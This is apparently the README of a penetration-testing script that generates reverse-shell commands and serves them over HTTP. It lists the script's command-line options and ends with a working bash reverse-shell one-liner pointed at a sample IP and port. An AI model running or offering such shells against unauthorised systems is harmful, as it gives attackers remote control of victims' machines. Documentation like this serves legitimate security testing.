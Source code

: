 # Reverse shell vending machine

This is a VERY simple script that can be used to create your basic reverse-shell commands.

All of this commands can be found online, and several people like [PentestMonkey](https://github.com/pentestmonkey) have made collections of them already. This is another collection, that can be used to insert the local IP and PORT easily.



usage: sheller.py [-h] [-i LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [--httpserver] [--httpport HTTPPORT] [-e INTERFACE]
                  shellLanguage

A script to generate reverse shells on various languages.

positional arguments:

  *shellLanguage*        Language to identify the shell to be built. Use -s to
                       see available shells.

optional arguments:

  -h, --help           show this help message and exit

  -i LOCALADDR         Address to connect back to

  -p LOCALPORT         Port to connect back to

  -o OUTFILE           File to write the reverse shell to

  --httpserver         Server the reverse-shell file on a http server

  --httpport HTTPPORT  Port to start HTTP server in, default 80

  -e INTERFACE         Interface name to get ip for reverse shell script
  
  example:

  sudo python3 sheller.py bash -p 8080 --httpserver -i eth4

  produces:

  bash -i >& /dev/tcp/169.254.138.91/8080 0>&1

  and serves it on http-server at all interfaces on port 80 at / http://localhost